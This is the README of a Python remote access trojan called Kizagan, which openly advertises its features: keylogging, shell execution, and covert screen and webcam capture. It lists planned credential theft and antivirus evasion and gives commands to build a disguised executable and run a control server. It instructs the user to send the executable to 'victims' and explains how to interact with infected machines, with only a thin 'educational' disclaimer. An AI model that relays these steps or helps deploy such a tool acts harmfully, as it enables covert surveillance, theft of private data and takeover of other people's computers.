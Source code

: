 # KIZAGAN

Kizagan is a RAT,C2 tool built with python.Kizagan can build executables and control infected machines.

## Features

+ Basic file/directory commands.(rename, delete, create etc.)

+ Download/Upload files.

+ Execute shell/terminal commands directly.

+ Take victim snap screenshot.

+ Watch live screen stream.

+ Take victim camera snapshot.

+ Watch live victim camera.

+ Advanced keylogger.

+ Merge executable with an arbitrary file.

## FEAUTURES TO DO

+ Encrypted connection

+ Persistence

+ Wifi names and passwords

+ Browser datas

+ Applications to make FUD

+ GUI

+ Access microphone

## SETUP

Clone the project or download the zip file and extract it.

    git clone https://github.com/st4inl3s5/kizagan

To make setup, use the following command :

    pip install -r requirements.txt

## USAGE

Build an executable file with following command :

    python3 kizagan.py build -ip <control_server_ip> -p <control_server_port> -i <your_icon_file> -m <your_merge_file> -n <executable_name>

![1](https://github.com/st4inl3s5/kizagan/assets/68844502/1c2decaa-b261-4369-9678-e979c90e7323)

![2](https://github.com/st4inl3s5/kizagan/assets/68844502/0c97768c-4472-4fda-a32f-9c849f508a3c)

![3](https://github.com/st4inl3s5/kizagan/assets/68844502/9d57d907-38ac-4e60-8f31-19c18a973ed8)

![4](https://github.com/st4inl3s5/kizagan/assets/68844502/6fd39e46-11dd-48fb-9a59-90e725642f3d)

Send the executable file to victims.

Start the control server with following command :

    python3 kizagan.py control -ip <control_server_ip> -p <control_server_port>

![5](https://github.com/st4inl3s5/kizagan/assets/68844502/4add8899-0614-4cb3-a752-f3a8243620e9)

![6](https://github.com/st4inl3s5/kizagan/assets/68844502/9e806d43-e82e-48f3-b4c9-85a7420c5797)

Wait for the victims to open your executable.When a victims open your executable, victims will appear in terminal :

![7](https://github.com/st4inl3s5/kizagan/assets/68844502/d3c6c598-9603-4bc9-8e1c-36618210fe75)

Press CTRL+C to interact with a victim :

![8](https://github.com/st4inl3s5/kizagan/assets/68844502/a3cdb668-63ce-42ba-8ed1-e5fa18cebac9)

Type 'help' to view help menu.

![9](https://github.com/st4inl3s5/kizagan/assets/68844502/b3ef8efd-f11e-4d48-937f-c852b36f4c75)

## MOTIVATION

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/st4inl3s5)

My motivation to develop kizagan, your donations, improve my cyber and software knowledge.

## DISCLAIMER

This tool developed for educational and red team purposes.Don't use this tool for illegal purposes.I am not responsible for illegal actions.

So the kizagan under development, it can have bugs.Please report me the bugs you find.

## CONTACT

https://www.instagram.com/arduinocum.py/

https://t.me/+5XoMhXv4SghhYmE0
